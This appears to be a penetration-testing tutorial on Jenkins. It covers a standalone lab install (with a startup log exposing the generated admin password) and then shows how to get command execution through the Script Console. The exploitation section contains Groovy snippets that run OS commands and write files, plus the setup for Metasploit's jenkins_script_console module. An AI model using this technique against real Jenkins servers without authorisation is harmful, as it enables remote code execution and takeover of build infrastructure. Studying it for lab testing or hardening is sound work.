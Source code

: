 # Jenkins



````
**Authors**: < [nixawk](https://github.com/nixawk) >


# Jenkins Hacking

1. How to deploy jenkins ?
2. How to exploit jenkins server ?


Jenkins is a self-contained, open source automation server which can be used to automate all sorts of tasks such as building, testing, and deploying software. Jenkins can be installed through native system packages, Docker, or even run standalone by any machine with the Java Runtime Environment installed.


## How to deploy jenkins ?

This guided tour will use the "standalone" Jenkins distribution which requires a minimum of Java 7, though Java 8 is recommended. A system with more than 512MB of RAM is also recommended.

1. [Download Jenkins](http://mirrors.jenkins.io/war-stable/latest/jenkins.war).
2. Open up a terminal in the download directory and run java -jar jenkins.war
3. Browse to http://localhost:8080 and follow the instructions to complete the installation.
4. Many Pipeline examples require an installed Docker on the same computer as Jenkins.

Please check the install log as follow.

```
root@lab:~/Downloads# java -jar jenkins.war
Running from: /root/Downloads/jenkins.war
webroot: $user.home/.jenkins
Mar 15, 2017 5:03:49 AM Main deleteWinstoneTempContents
WARNING: Failed to delete the temporary Winstone file /tmp/winstone/jenkins.war
Mar 15, 2017 5:03:50 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Logging initialized @6168ms
Mar 15, 2017 5:03:50 AM winstone.Logger logInternal
INFO: Beginning extraction from war file
Mar 15, 2017 5:04:05 AM org.eclipse.jetty.util.log.JavaUtilLog warn
WARNING: Empty contextPath
Mar 15, 2017 5:04:06 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: jetty-9.2.z-SNAPSHOT
Mar 15, 2017 5:04:10 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: NO JSP Support for /, did not find org.eclipse.jetty.jsp.JettyJspServlet
Jenkins home directory: /root/.jenkins found at: $user.home/.jenkins
Mar 15, 2017 5:04:20 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Started w.@30990c1b{/,file:/root/.jenkins/war/,AVAILABLE}{/root/.jenkins/war}
Mar 15, 2017 5:04:20 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Started ServerConnector@54227100{HTTP/1.1}{0.0.0.0:8080}
Mar 15, 2017 5:04:20 AM org.eclipse.jetty.util.log.JavaUtilLog info
INFO: Started @36602ms
Mar 15, 2017 5:04:20 AM winstone.Logger logInternal
INFO: Winstone Servlet Engine v2.0 running: controlPort=disabled
Mar 15, 2017 5:04:22 AM jenkins.InitReactorRunner$1 onAttained
INFO: Started initialization
Mar 15, 2017 5:04:23 AM jenkins.InitReactorRunner$1 onAttained
INFO: Listed all plugins
Mar 15, 2017 5:04:45 AM jenkins.InitReactorRunner$1 onAttained
INFO: Prepared all plugins
Mar 15, 2017 5:04:45 AM jenkins.InitReactorRunner$1 onAttained
INFO: Started all plugins
Mar 15, 2017 5:04:45 AM jenkins.InitReactorRunner$1 onAttained
INFO: Augmented all extensions
Mar 15, 2017 5:04:51 AM jenkins.InitReactorRunner$1 onAttained
INFO: Loaded all jobs
Mar 15, 2017 5:04:51 AM hudson.model.AsyncPeriodicWork$1 run
INFO: Started Download metadata
Mar 15, 2017 5:04:52 AM org.jenkinsci.main.modules.sshd.SSHD start
INFO: Started SSHD at port 43731
Mar 15, 2017 5:04:53 AM jenkins.InitReactorRunner$1 onAttained
INFO: Completed initialization
Mar 15, 2017 5:04:55 AM org.springframework.context.support.AbstractApplicationContext prepareRefresh
INFO: Refreshing org.springframework.web.context.support.StaticWebApplicationContext@4d8c4701: display name [Root WebApplicationContext]; startup date [Wed Mar 15 05:04:55 EDT 2017]; root of context hierarchy
Mar 15, 2017 5:04:55 AM org.springframework.context.support.AbstractApplicationContext obtainFreshBeanFactory
INFO: Bean factory for application context [org.springframework.web.context.support.StaticWebApplicationContext@4d8c4701]: org.springframework.beans.factory.support.DefaultListableBeanFactory@16f7f485
Mar 15, 2017 5:04:55 AM org.springframework.beans.factory.support.DefaultListableBeanFactory preInstantiateSingletons
INFO: Pre-instantiating singletons in org.springframework.beans.factory.support.DefaultListableBeanFactory@16f7f485: defining beans [authenticationManager]; root of factory hierarchy
Mar 15, 2017 5:04:58 AM org.springframework.context.support.AbstractApplicationContext prepareRefresh
INFO: Refreshing org.springframework.web.context.support.StaticWebApplicationContext@1aa6a1d4: display name [Root WebApplicationContext]; startup date [Wed Mar 15 05:04:58 EDT 2017]; root of context hierarchy
Mar 15, 2017 5:04:58 AM org.springframework.context.support.AbstractApplicationContext obtainFreshBeanFactory
INFO: Bean factory for application context [org.springframework.web.context.support.StaticWebApplicationContext@1aa6a1d4]: org.springframework.beans.factory.support.DefaultListableBeanFactory@26dbd965
Mar 15, 2017 5:04:58 AM org.springframework.beans.factory.support.DefaultListableBeanFactory preInstantiateSingletons
INFO: Pre-instantiating singletons in org.springframework.beans.factory.support.DefaultListableBeanFactory@26dbd965: defining beans [filter,legacy]; root of factory hierarchy
Mar 15, 2017 5:04:59 AM jenkins.install.SetupWizard init
INFO:

*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

e019dca34bac4a30beca67b53e821f35

This may also be found at: /root/.jenkins/secrets/initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

Mar 15, 2017 5:05:06 AM hudson.model.UpdateSite updateData
INFO: Obtained the latest update center data file for UpdateSource default
Mar 15, 2017 5:05:09 AM hudson.model.DownloadService$Downloadable load
INFO: Obtained the updated data file for hudson.tasks.Maven.MavenInstaller
Mar 15, 2017 5:05:09 AM hudson.model.UpdateSite updateData
INFO: Obtained the latest update center data file for UpdateSource default
Mar 15, 2017 5:05:10 AM hudson.WebAppMain$3 run
INFO: Jenkins is fully up and running
Mar 15, 2017 5:05:10 AM javax.jmdns.impl.HostInfo newHostInfo
WARNING: Could not intialize the host network interface on nullbecause of an error: lab: lab: Temporary failure in name resolution
java.net.UnknownHostException: lab: lab: Temporary failure in name resolution
	at java.net.InetAddress.getLocalHost(InetAddress.java:1505)
	at javax.jmdns.impl.HostInfo.newHostInfo(HostInfo.java:75)
	at javax.jmdns.impl.JmDNSImpl.<init>(JmDNSImpl.java:407)
	at javax.jmdns.JmDNS.create(JmDNS.java:60)
	at hudson.DNSMultiCast$1.call(DNSMultiCast.java:33)
	at jenkins.util.ContextResettingExecutorService$2.call(ContextResettingExecutorService.java:46)
	at java.util.concurrent.FutureTask.run(FutureTask.java:266)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
	at java.lang.Thread.run(Thread.java:745)
Caused by: java.net.UnknownHostException: lab: Temporary failure in name resolution
	at java.net.Inet6AddressImpl.lookupAllHostAddr(Native Method)
	at java.net.InetAddress$2.lookupAllHostAddr(InetAddress.java:928)
	at java.net.InetAddress.getAddressesFromNameService(InetAddress.java:1323)
	at java.net.InetAddress.getLocalHost(InetAddress.java:1500)
	... 9 more

Mar 15, 2017 5:05:18 AM hudson.model.DownloadService$Downloadable load
INFO: Obtained the updated data file for hudson.tools.JDKInstaller
Mar 15, 2017 5:05:18 AM hudson.model.AsyncPeriodicWork$1 run
INFO: Finished Download metadata. 27,508 ms


```

Please attention here, we need the password to finish setup.

```
Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

e019dca34bac4a30beca67b53e821f35
```

## How to exploit jenkins server ?

access http://127.0.0.1:8080/script, and pwn the jenkins server with Script Console.

> Script Console

> Type in an arbitrary Groovy script and execute it on the server. Useful for trouble-shooting and diagnostics. Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:


### **execmd.groovy**

**execmd.groovy** can help you execute os command on jenkins server.

```
# Windows

println "cmd.exe /c dir".execute().text


# Linux

println "uname -a".execute().text

```

### **writefile.groovy**

**writefile.groovy** can write strings into a file on jenkins server.

```
new File("/tmp/test.sh").write("""
echo "123"
echo "456"
""")
```

If you prefer [metasploit-framework](https://github.com/rapid7/metasploit-framework),

```
msf > use exploit/multi/http/jenkins_script_console
msf exploit(jenkins_script_console) > show options

Module options (exploit/multi/http/jenkins_script_console):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   password         no        The password for the specified username
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.1.100    yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /                yes       The path to jenkins
   USERNAME   test             no        The username to authenticate as
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   1   Linux
msf exploit(jenkins_script_console) > exploit
```


## References

1. https://jenkins.io/
````
